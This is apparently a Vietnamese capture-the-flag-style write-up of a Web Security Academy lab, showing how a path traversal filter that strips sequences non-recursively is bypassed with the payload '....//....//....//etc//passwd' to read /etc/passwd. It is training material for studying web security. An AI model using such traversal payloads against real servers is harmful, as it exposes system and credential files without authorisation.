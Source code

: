 # **Lab: File path traversal, traversal sequences stripped non-recursively**

>  This lab contains a path traversal vulnerability in the display of product images.  
>  The application strips path traversal sequences from the user-supplied filename before using it.  
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.  

# **Solution**

Mở một hình ảnh trong tab mới.  
Trên URL ta thấy có tham số `filename`:

```
https://0ac000ed033dde8a826c1a0e008b00bf.web-security-academy.net/image?filename=1.jpg
```

```
filename=/etc/passwd
```

Trường hợp lần này dùng đường dẫn tuyệt đối tới /etc/passwd không có tác dụng. Web đã cấu hình để chặn việc truy xuất này, thử cách thông thường:

```
filename=../../../etc/passwd
```

Cách này cũng không có tác dụng do ứng dụng loại bỏ các chuỗi truyền tải đường dẫn khỏi tên tệp do người dùng cung cấp trước khi sử dụng.

Sửa filename:

```
filename=....//....//....//etc//passwd
```

Sử dụng liên tiếp `....` và `//` trong đó `..` và `/` để bypass filter của ứng dụng. 

Done~~